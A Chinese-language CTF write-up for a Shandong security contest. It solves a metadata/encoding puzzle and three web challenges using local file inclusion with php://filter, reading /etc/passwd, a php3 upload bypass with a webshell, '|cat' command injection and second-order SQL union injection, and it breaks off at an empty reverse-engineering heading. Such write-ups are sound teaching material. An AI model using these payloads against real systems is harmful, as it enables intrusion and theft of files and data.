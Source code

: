 ```yaml
---
layout: post
title: 山东新一代信息技术创新应用大赛—信息安全攻防赛项WriteUp
---
```


> 主办方服务器一直很卡，导致比赛体验不是很好，希望下次能换个高配置的服务器 :)

# Misc

## 可爱的喵喵

右键属性->细节->镜头制造商

![image-20201119223004616](https://tva1.sinaimg.cn/large/0081Kckwly1gkuur246qpj30w20sc4dv.jpg)

得到

`4D5A5747435A33334D563447535A53374E425557495A44464E5A50574D3342554D3536513D3D3D3D`

hex解密 -> base32解密 ->flag

![image-20201119223232642](https://tva1.sinaimg.cn/large/0081Kckwly1gkuutibz60j30je0bu3ze.jpg)

# Web

## web1

打开题目链接，发现只有一个Apache2的默认页面，dirsearch扫一下web目录，看看有没有什么敏感文件

![image-20201119114703077](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc5xri43j311r0u0tmc.jpg)

```bash
python3 dirsearch.py -u http://47.105.128.249:35001/
```

![image-20201119115000878](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc8z1102j31620tq4gi.jpg)

扫描完成后发现 "edit.php f.php upload.php很可疑"

访问http://47.105.128.249:35001/f.php?f=index.html

![image-20201119115639459](https://tva1.sinaimg.cn/large/0081Kckwly1gkucfw0j1cj31cf0u0dph.jpg)

发现成功包含文件，目测存在任意文件包含+读取，于是尝试读取/etc/passwd

经测试发现未开启远程包含

这里使用file协议读取

http://47.105.128.249:35001/f.php?f=file:///etc/passwd

![image-20201119120407487](https://tva1.sinaimg.cn/large/0081Kckwly1gkucnmzokjj30sq0cqn0h.jpg)

再利用PHP伪协议读取upload.php源代码审计一波

http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php

upload.php

```php
<?php
$res = [];
if ($_POST["filename"] == '') {
    $res['state'] = false;
    $res['info'] = "请上传txt格式文件";
    echo json_encode($res);
    exit();
} else {
    $file_name = $_POST['filename'];
    $file_ext = strrchr($file_name, '.');
    if($file_ext == '.php'){
        $res['state']=false;
    	$res['info']="文件名非法！";
    	echo json_encode($res);
    	exit();
    }
    $file_name = preg_replace("/[^a-zA-Z0-9.]+/","",$file_name);
    if($file_name === "") {
    	$res['state']=false;
    	$res['info']="要传好好传，别搞啊";
    	echo json_encode($res);
    	exit();
    }
    $file_path = './Uploads/'.$file_name;
    $fileContent = $_POST['filecontent'];

    if(strpos($fileContent,'eval')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
    
    if(strpos($fileContent,'assert')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
  
    $a = explode('.', $_POST['filename']);
    $ext = $a[count($a)-1];
    if (strtolower($ext)=='php') {
        file_put_contents($file_path, $fileContent);
    }
    else {
        file_put_contents($file_path, $fileContent);
    }
    $res['state'] = true;
    $res['info'] = '文件保存至'.$file_path;
    echo json_encode($res);
    exit();
}
```

发现只过滤了php后缀，可以直接利用php3绕过上传webshell

但奇怪的是前端并没有找到上传表单，索性看了下upload.js

![image-20201119223913843](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv0hetvkj30uo0rkte4.jpg)

```javascript
$(function () {
    $("#submit").on("click", function () {
        var fileName = $('#file_name').val();
        var fileContent = $('#file_content').val();
        $.ajax({
            url: "/upload.php",
            method: "POST",
            data: {filename: fileName, filecontent: fileContent},
            success:function (data, status) {
                result = JSON.parse(data);
                var notice = $('<div class="alert m-5" role="alert">' + result["info"] + '</div>');
                if (result["state"]) {
                    notice.addClass("alert-success");
                } else
                    notice.addClass("alert-danger");
                if ($('div.alert')) {
                    $('div.alert').remove();
                }
                $('form.m-5').before(notice);
            }
        });
    });
    }
);
```

![image-20201119123808460](https://tva1.sinaimg.cn/large/0081Kckwly1gkudn34i4bj30ze0aggne.jpg)

发现定义了上传过程，需要POST传参filename 和 filecontent，简单构造一下请求包

这里我们就不上传shell了，换用php文件包含

![image-20201119130524566](https://tva1.sinaimg.cn/large/0081Kckwly1gkueff7y5kj31eg0u0h1p.jpg)

换成小马重新上传，蚁剑连接

![image-20201119130858625](https://tva1.sinaimg.cn/large/0081Kckwly1gkuej7cwwlj316m0u0tai.jpg)

​	`flag{3676a83707feca6c9da2a058582d7191}`

> 其实web1有很多解法，下面来说一说其他的解法
>
> 1）构造上传包->上传txt（内容为一句话马）->f.php本地文件包含->getshell->get flag
>
> 2）利用php伪协议读源码 `http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php`然后审计上传函数，构造上传包上传php3后缀的马->get flag

## web2

php任意代码执行无过滤

![image-20201119224047154](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv22wpp4j30mc0b675y.jpg)

构造payload

http://47.105.128.249:35002/?target=127.0.0.1|cat /f*

`flag{40e9a8e44ed6216f6455147d354c8276}`



# web3

![image-20201119225348834](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvfn1dfbj30cw098wep.jpg)

![image-20201119225136950](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvdd4x2pj31180a4tel.jpg)

发现有注册和登录 并且注册之后登录会显示出同年龄的人 猜测后台sql语句为：

`select * from where age='100'`

在注册的时候会有insert操作，但是后来测试了发现有转义，由此基本判断为二次注入

![image-20201119225719819](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvjakej9j30ey0bm0tj.jpg)

在年龄处构造payload 使其查询数据并判断字段数量

1' order by 4# //返回正常

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gkuvregvu7j30gc15w781.jpg" alt="image-20201119230506211" style="zoom:50%;" />

1' order by 5# //无返回

![image-20201119230812410](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvulowlbj30gs0ea0u1.jpg)

知道共有4个字段，union select 1,2,3,4 发现页面只回显了2

剩下的依次查询库名，表名，字段名就可以了

```sql
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=0x74657374 -- z#
```

![image-20201119232950246](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwh4ogk8j31m60e0acw.jpg)

```sql
-1' union select 1,fl44g,3,4 from flaaag-- z#
```

![image-20201119233249667](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwk8k2ekj31oq0g0wia.jpg)

# Re

